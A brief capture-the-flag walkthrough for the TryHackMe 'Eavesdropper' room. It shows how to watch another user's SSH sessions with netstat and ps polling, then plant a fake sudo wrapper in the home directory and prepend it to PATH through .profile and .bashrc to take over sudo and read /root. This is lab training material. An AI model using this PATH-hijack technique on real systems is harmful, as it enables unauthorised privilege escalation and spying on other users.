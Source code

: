 # TryHackMy Eavesdropper room:

[https://tryhackme.com/room/eavesdropper](https://tryhackme.com/room/eavesdropper)

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ watch -n 0.01 netstat -naplet`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep >> process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat $HOME/sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH in right way (via .profile & .bashrc) and wait for the wrapper execution.

Check the /root with the sudo wrapper.

Capture the flag :)
